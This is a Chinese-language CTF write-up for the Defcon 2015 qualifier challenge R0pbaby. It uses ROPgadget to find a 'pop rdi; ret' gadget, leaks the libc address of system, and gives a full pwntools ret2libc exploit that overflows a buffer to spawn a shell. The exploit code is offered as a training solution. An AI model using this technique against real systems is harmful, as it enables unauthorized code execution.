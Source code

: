 ```
p.interactive()
```

### Defcon 2015 Qualifier: R0pbaby

checksec 检查一下，发现是64位程序，所以参数应该是存储在 rdi 寄存器上

64 位程序当参数少于 7 个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9

通过 ROPgadget --binary /libc/x86_64-linux-gnu/ libc.so.6 --only "pop|ret" | grep "rdi"

获取到 pop rdi ；ret 的地址：

![image.png](https://cdn.nlark.com/yuque/0/2019/png/268938/1574663502432-70335a77-3256-4ba8-adf0-f7208c5b7ed7.png)

通过程序自身提供的功能，可以获取到 libc 的地址与任意函数的地址

![image.png](https://cdn.nlark.com/yuque/0/2019/png/268938/1574663904109-6e3aa29a-7ae6-48f4-98f6-7ba99c5cf511.png)

同时第三个功能存在溢出，经过计算溢出的长度为 8 

![image.png](https://cdn.nlark.com/yuque/0/2019/png/268938/1574664880977-b87b80fb-e80a-43ad-b6c6-22fad2b1bda8.png)

写 exp：

```python
from pwn import *
from LibcSearcher import *
p=process('./pwn')
elf=ELF('./pwn')
rdi_offset=0x0000000000021102
p.recvuntil(': ')
p.sendline('2')
p.recvuntil('symbol: ')
p.sendline('system')
p.recvuntil(': ')
sys_addr=p.recvuntil('\n',drop=True)
sys_addr=int(sys_addr,16)
libc=LibcSearcher('system',sys_addr)
libc_base=sys_addr-libc.dump('system')
bin_addr=libc_base+libc.dump('str_bin_sh')
rdi_addr=libc_base+rdi_offset
payload='a'*8+p64(rdi_addr)+p64(bin_addr)+p64(sys_addr)
p.recvuntil(': ')
p.sendline('3')
p.recvuntil('): ')
length=len(payload)
print length
print str(length)
p.sendline(str(length))
p.sendline(payload)
p.interactive()
```
